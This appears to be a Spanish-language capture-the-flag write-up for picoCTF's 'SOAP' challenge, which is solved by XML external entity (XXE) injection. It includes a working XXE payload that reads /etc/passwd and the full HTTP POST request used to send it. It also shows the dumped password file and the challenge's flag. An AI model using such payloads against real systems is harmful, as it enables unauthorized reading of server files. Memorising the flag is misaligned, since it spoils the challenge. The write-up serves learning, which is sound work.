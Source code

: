 #xxe 
# SOAP
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file? [Web Portal](http://saturn.picoctf.net:56292/)

## Solución
Que es XXE ?
[Payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XXE%20Injection/README.md)


### Prueba inicial

- si remplaza, el 1 arriba , va abajo y obtendremos la info
```
[<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot "3"> ]>
<data><ID>&tot;</ID>
</data>](<%3C?xml version="1.0" encoding="UTF-8"?%3E
<!DOCTYPE replace [<!ENTITY example "1"> ]>
<data><ID>&example;</ID></data>>)
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>&test;</ID></data>
```


### Inyeccion

```
POST /data HTTP/1.1
Host: saturn.picoctf.net:56292
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/111.0
Accept: */*
Accept-Language: es-MX,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://saturn.picoctf.net:56292/
Content-Type: application/xml
Content-Length: 113
Origin: http://saturn.picoctf.net:56292
Connection: close
Cookie: PHPSESSID=lj3gcm06t7pt9nsbdvqd1uerm6



<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY tot SYSTEM "/etc/passwd"> ]>
<data><ID>&tot;</ID>
</data>
```


```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}
```


```

```
